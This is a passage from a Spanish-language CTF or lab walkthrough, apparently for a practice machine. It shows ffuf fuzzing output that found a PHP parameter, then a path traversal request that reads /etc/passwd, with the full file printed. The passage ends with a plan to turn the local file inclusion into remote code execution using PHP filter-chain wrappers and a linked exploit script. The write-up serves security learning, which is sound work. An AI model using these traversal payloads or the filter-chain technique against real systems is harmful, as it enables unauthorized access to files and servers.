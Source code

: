 ```
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

6                       [Status: 200, Size: 1404, Words: 13, Lines: 27, Duration: 38ms]
:: Progress: [20469/20469] :: Job [1/1] :: 399 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

Veremos que aparentemente a funcionado, vamos a ver si es cierto probandolo de forma manual.

```
URL = http://<IP>/php-scripts/file.php?6=../../../../../etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
cromiphi:x:1000:1000:cromiphi,,,:/home/cromiphi:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

Vemos que esta funcionando, por lo que vamos a utilizar `wrappers` de `LFI` para poder realizar un `RCE` de la siguiente forma:

### Wrappers de LFI

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py
